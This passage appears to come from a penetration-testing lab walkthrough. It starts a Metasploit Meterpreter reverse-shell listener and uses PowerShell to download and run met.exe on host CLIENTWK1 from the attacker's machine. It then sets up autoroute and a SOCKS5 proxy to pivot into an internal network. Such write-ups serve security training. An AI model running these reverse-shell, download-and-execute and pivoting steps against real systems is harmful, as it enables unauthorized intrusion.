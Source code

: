 Starting a _multi/handler_ listener with corresponding settings with **ExitOnSession** set to **false** so we don't need to restart the listener every time:

```bash
kali@kali:~/beyond$ sudo msfconsole -q

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 192.168.119.5
LHOST => 192.168.119.5

msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443

msf6 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false

msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started HTTPS reverse handler on https://192.168.119.5:443
```

Downloading _**met.exe**_ on CLIENTWK1 so we get our session:

{% code overflow="wrap" %}
```powershell
PS C:\Users\marcus> iwr -uri http://192.168.119.5:8000/met.exe -Outfile met.exe

PS C:\Users\marcus> .\met.exe
```
{% endcode %}

Catching our session and using **multi/manage/autoroute** and **auxiliary/server/socks\_proxy** to create a SOCKS5 proxy toa ccess the internal network from our Kali box:

{% code overflow="wrap" %}
```bash
[*] Meterpreter session 1 opened (192.168.119.5:443 -> 192.168.50.242:64234) at 2022-10-11 07:05:22 -0400

msf6 exploit(multi/handler) > use multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set session 1
session => 1

msf6 post(multi/manage/autoroute) > run
[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against CLIENTWK1
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.16.6.0/255.255.255.0 from host's routing table.
[*] Post module execution completed

msf6 post(multi/manage/autoroute) > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1

msf6 auxiliary(server/socks_proxy) > set VERSION 5
VERSION => 5

msf6 auxiliary(server/socks_proxy) > run -j
```
